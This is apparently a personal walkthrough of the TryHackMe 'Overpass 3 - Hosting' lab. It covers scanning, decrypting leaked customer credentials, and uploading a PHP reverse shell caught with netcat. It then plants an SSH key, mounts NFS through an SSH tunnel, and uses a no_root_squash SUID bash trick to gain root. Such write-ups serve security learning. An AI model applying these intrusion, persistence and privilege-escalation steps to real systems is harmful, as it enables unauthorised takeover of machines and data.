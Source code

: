 # Overpass 3 - Hosting

This is my write-up for the TryHackMe machine at: [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)

Nmap Scan command:&#x20;

```
nmap -T4 -A 10.10.168.65 -oN nmapscan
```

Nmap output:

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-10 22:39 EDT
Nmap scan report for 10.10.168.65
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 de:5b:0e:b5:40:aa:43:4d:2a:83:31:14:20:77:9c:a1 (RSA)
|   256 f4:b5:a6:60:f4:d1:bf:e2:85:2e:2e:7e:5f:4c:ce:38 (ECDSA)
|_  256 29:e6:61:09:ed:8a:88:2b:55:74:f2:b7:33:ae:df:c8 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos)
|_http-title: Overpass Hosting
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.91 seconds
```

I noticed that they have 3 ports open. I went to the web (port 80) first to check it out:

![](<../../.gitbook/assets/image (338) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

There was no `/robots.txt` file. I then ran **gobuster** on the IP address:

```
gobuster dir --url http://10.10.168.65/  -w directory-list-lowercase-2.3-big.txt -t 40
```

About 4% of the gobuster search, I got the following output:

![](<../../.gitbook/assets/image (330) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Going to the backups website, I saw this:

![](<../../.gitbook/assets/image (341) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I then downloaded the file. There were two files in the zip file:

![](<../../.gitbook/assets/image (332) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

Using [this write-up](https://musyokaian.medium.com/overpass-3-hosting-tryhackme-walkthrough-d77703a72495), I realized that I can decrupt the file with the private key I have:

```
gpg --import priv.key //import the key
gpg --decrypt CustomerDetails.xlsx.gpg > CustomerDetails.xlsx //output to new file
```

Since I am on Linux (Kali), I wanted to convert the file to a version that I would be able to view in. I ran the following command to convert the Excel file into a csv file, which I was able to read:

```
ssconvert CustomerDetails.xlsx newfile.csv
```

I was then able to see the contents of the file:

![](<../../.gitbook/assets/image (335) (1) (1) (1) (1) (1) (1) (1) (1).png>)

It seems to be the customers of the website, based on the context. We also have their username and password. I will try this in FTP, and my plan is that if the password does not work on FTP, then I will try SSH. In FTP, I got access using the credentials for "Par. A. Doxx":

![](<../../.gitbook/assets/image (339) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

FTP seemed to only work for that user. The other passwords did not work in FTP. When I tried for SSH, the credentials did not work there either. I then went back to the same write-up above and then realized that I had to upload a php-reverse-shell. Going to [this GitHub page](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), I downloaded the reverse-shell script. In the script, I changed the IP address to my TryHackMe IP address. I then uploaded the file to the server:

![](<../../.gitbook/assets/image (326) (1) (1) (1).png>)

I then ran `nc -lvp 1234` on another terminal tab, and was listening for a connection. After visiting **http://10.10.168.65/php-reverse-shell.php**, I got a reverse shell:

![](<../../.gitbook/assets/image (325) (1) (1) (1) (1).png>)

After being stuck for a while, I viewed [this write-up](https://www.aldeid.com/wiki/TryHackMe-Overpass-3-Hosting) in order to see where to go next. I used the command the author of the write-up used:

```
find / -type f -name "*flag*" -exec ls -l {} + 2>/dev/null
```

This gave me the following output:

![](<../../.gitbook/assets/image (323) (1) (1) (1) (1).png>)

This file had the flag in it:

![](<../../.gitbook/assets/image (328) (1) (1) (1) (1) (1).png>)

I then downloaded Linpeas to my local machine using **wget**. I then pushed that to the server using an http server:

![](<../../.gitbook/assets/image (334) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (342) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I then ran linpeas on the remote machine. I then saw the following, when I also saw in other write-ups as well:

![](<../../.gitbook/assets/image (327) (1) (1) (1) (1) (1) (1) (1).png>)

I then went back to the most recently mentioned write-up, in order to understand what I had to do next. Following [this write-up](https://shishirsubedi.com.np/thm/overpass3/), I uploaded my key to the remote server so I can connect in an easier method. Here are the commands I ran:

```
My machine: ssh-keygen -f paradox
My machine: cat paradox.pub
//Take the information inside the paradox.pub and copy it to the remote machine
Remote machine: echo "ssh-rsa ............" > .ssh/paradox
```

I was then able to ssh into the machine to the user paradox from my machine directly:

![](<../../.gitbook/assets/image (324) (1) (1).png>)

After a long time of being stuck, I finally found a solution reading [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/). My mistake was running the wrong command. The following is what worked for me:

```
ssh -i paradox -L 20049:127.0.0.1:2049  paradox@10.10.168.65
```

I changed 2049 before the IP to 20049, since I kept on getting errors that the port was already in use. I then ran the following command to mount the share to my local machine:

```
sudo mount -t nfs -o port=20049 localhost: nfs
```

If we change directory into the **nfs** folder, we can see the file system mounted there:

![](<../../.gitbook/assets/image (337) (1) (1) (1) (1) (1) (1) (1).png>)

I read the user flag. After that, the ssh authorized key I had uploaded to paradox earlier, I had not uploaded it to **.ssh/authorized\_keys** in the mounted directory. I then was able to SSH to the machine:

![](<../../.gitbook/assets/image (331) (1) (1) (1) (1) (1) (1) (1) (1).png>)

I read up from [this write-up](https://cryptichacker.github.io/posts/overpass3hosting/) that I can now use the **no\_root\_squash** exploit, something that linpeas.sh had shown us earlier. I followed the following commands from the write-up to get it to work:

```
#In the mounted dir, as root user
cp /bin/bash ./
chmod +s bash

#In the remote machine as user james
./bash -p
```

This got me root user on the machine. I then got the root flag.

![](<../../.gitbook/assets/image (340) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
